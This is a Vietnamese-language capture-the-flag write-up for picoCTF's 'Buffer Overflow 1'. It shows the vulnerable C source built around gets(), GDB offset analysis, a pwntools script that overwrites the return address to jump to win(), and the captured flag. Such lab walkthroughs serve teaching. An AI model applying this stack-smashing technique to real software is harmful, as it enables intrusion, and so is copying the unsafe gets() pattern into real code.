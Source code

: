 # Buffer Overflow 1
Giống như ở bài `Buffer Overflow 0`, challenge này cho chúng ta 2 file. Một file binary `vuln` và một file .c `vuln.c`.

Mở file `vuln.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Đặc điểm chung là ta đều phải tạo file `flag.txt` trước khi chạy local =))))

Ta thấy câu lệnh gây nên lỗi `buffer overflow`:

``` c
gets(buf);
```

Và hàm `win()` sẽ in ra flag:

``` c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

Vậy giờ ta sẽ làm sao đó để ghi đè địa chỉ trả về của hàm `vuln()` thành địa chỉ hàm `win()` để khi hàm `vuln()` được gọi xong thì hàm `win()` sẽ được gọi để in flag.

Đầu tiên dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy đây là một chương trình ELF 32 bit và `PIE` không được bật:

![alt text](image.png)

Vì vậy nên địa chỉ của hàm `win()` là cố định nên có thể dễ dàng ghi đè địa chỉ của hàm `win()` lên địa chỉ trả về của hàm `vuln()`.

Ta có địa chỉ hàm `win()` là `0x080491f6`. Ta biết rằng mảng `buf` có kích thước là `BUFSIZE` (32 bytes) nên ta cần `offset` lớn hơn 32. Ta biết được rằng lệnh `return` sẽ lấy địa chỉ trả về từ đỉnh `stack` ngay tại thời điểm đó hay cụ thể trong bài này sẽ là giá trị tại địa chỉ được con trỏ `$esp` trỏ tới.

Chỉ cần dùng `GDB` ta thấy rằng khi bắt đầu nhập chuỗi kí tự thì địa chỉ nhận dữ liệu ban đầu là `0xffffd010` và địa chỉ vùng nhớ mà lệnh `return` trỏ tới trên stack là `0xffffd03c`:

![alt text](image-1.png)

Lấy `0xffffd03c` trừ đi `0xffffd010`:

``` python
>>> 0xffffd03c-0xffffd010
44
```

Vậy `offset` ta đang tìm là `44`. 
Dựa vào những phân tích trên, ta có file exploit như sau:

``` python 
from pwn import *

payload = 44 * b'a'
payload += b'\xf6\x91\x04\x08'
#p = process("./vuln")
p = remote("saturn.picoctf.net", 60768)
p.sendline(payload)
p.interactive()
```

Và ta có flag:

```
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```